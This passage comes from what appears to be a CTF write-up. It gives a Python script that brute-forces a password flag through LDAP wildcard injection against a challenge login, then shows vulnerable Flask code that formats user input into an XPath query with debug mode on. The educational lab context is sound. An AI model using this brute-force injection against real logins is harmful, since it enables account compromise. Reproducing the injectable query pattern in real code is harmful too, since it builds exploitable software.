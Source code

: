 But I didnt get any type of injection in this search functionality. Took me a while to go back to the login screen and try something else. I knew I needed the password. The flag was probably the password. 

I found that we can use regex in LDAP injection using the "\*" char again like: "HTB{\*". Now all I need was a script to brute force with different chars and try them at login. If I get logged in I add that char to the flag. Here is what I wrote:

{%highlight python%}
import requests

chars=[]

for x in range(33,126):
	chars.append(chr(x))
#print(chars)
chars.remove("(")
chars.remove(")")
chars.remove("*")
chars.remove("\\")

username="reese"
flag='HTB{'
length="2586"
while("}"!=flag[-1]):
	for x in chars:
		password=flag+x+"*"
		data={"username":username,"password":password}
		r=requests.post("http://46.101.53.249:31851/login",data=data)
		#print(x,r.headers.get('Content-Length'))
		if (r.headers.get('Content-Length')==length):
			flag+=x
			print(flag)
print(flag)
{%endhighlight%}

I basically created a list of alphanumericals and removed the reserved chars from the list. After that, i just had to run the script and get the flag.

## Challenge 6: E-Tree

This challenge comes from the Cyber apocalypse CTF. Another web-scripting challenge. I dont have the screenshots but I can explain the challenge. So What this challenge had was a search functionality.

We can search a xml file using that query. The xml file had the flag hidden inside it(got the clue from downloadable part of challenge). The server was a flask server and had debug mode ON. So basically triggering any error gave me the full code I need tot develop the exploit. 

{%highlight python%}
@app.route("/api/search", methods=["POST"])

def search():
    name = request.json.get("search", "")
    query = "/military/district/staff[name='{}']".format(name)
    if tree.xpath(query):
        return {"success": 1, "message": "This millitary staff member exists."}
    return {"failure": 1, "message": "This millitary staff member doesn't exist."}
app.run("0.0.0.0", port=1337, debug=True)
{%endhighlight%}
